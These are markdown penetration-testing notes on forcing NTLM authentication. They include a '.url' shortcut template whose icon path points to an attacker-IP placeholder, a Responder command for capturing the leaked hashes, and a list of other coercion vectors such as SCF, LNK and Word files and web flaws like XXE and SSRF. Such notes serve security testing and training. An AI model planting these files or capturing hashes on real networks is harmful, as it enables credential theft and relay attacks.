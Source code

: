 ### URLFileAttacks

**Scenario**: assume that a share is present and a scheduled user/task browses it. This causes it to force, **automatically**, an NTLM authentication attempt that can be "caught" via the *Responder*. The attack is to force NTLM authentication.

**Steps**:
1. Malicious file creation - the file name must be of the type `@something.url`:
```text
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah 
IconFile=\\<IP ATTACKER>\%USERNAME%.icon 
IconIndex=1
```
2. *Responder.py* setup:
	- `sudo python3 Responder.py -I <IFACE> -wdv`
3. file should be uploaded to the share where we have write permissions and where the victim also has access
4. obtained hashes we have two alternatives:
	- NetNTLM cracking
	- *NTLM Relay*

#### other techniques - file attacks

- **useful resources**: 
	- [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication)
	- [https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- in addition to *.URL* files, it is possible to force NTLM authentication through a lot of possibilities
	- hyperlink in Word document
	- .SCF file
	- .LNK file
	- image in a .RTF file
	- `IncludePicture` field in a Word document.
	- HTTP image and internal DNS
	- MySQL `Load_File` function, SQL injection
	- MSSQL, SQL injection
	- Redis `eval` function

## WebappVulnerabilities

- **resources**: 
	- [https://www.blazeinfosec.com/post/web-app-vulnerabilities-ntlm-hashes/](https://www.blazeinfosec.com/post/web-app-vulnerabilities-ntlm-hashes/)
	- [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

A lot of web vulnerabilities allow NTLM authentication to be forced:
- Server Side Request Forgery
- Remote File Inclusione Local File Inclusion
- MySQL injection (example: [https://www.mannulinux.org/2020/01/stealing-ntlmv2-hash-by-abusing-sqlInjection.html](https://www.mannulinux.org/2020/01/stealing-ntlmv2-hash-by-abusing-sqlInjection.html))
- MSSQL injection ([example](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/))
- XXE (example: [here](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) and [https://shubhamchaskar.com/xxe-to-ntlm/](https://shubhamchaskar.com/xxe-to-ntlm/))
- XPATH injection ([example](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/))
- XSS ([example](https://www.blazeinfosec.com/post/web-app-vulnerabilities-ntlm-hashes/))
